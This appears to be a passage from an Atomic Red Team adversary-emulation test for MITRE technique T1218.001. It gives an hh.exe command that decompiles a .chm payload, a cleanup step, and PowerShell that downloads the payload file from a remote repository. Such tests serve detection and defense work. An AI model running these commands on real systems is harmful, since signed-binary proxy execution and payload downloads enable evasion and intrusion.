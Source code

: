 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1218.001&#92;src&#92;T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe -decompile %temp% "#{local_chm_file}"
```

#### Cleanup Commands:
```cmd
del %temp%\T1218.001.html >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{local_chm_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{local_chm_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.001/src/T1218.001.chm" -OutFile "#{local_chm_file}"
```




<br/>

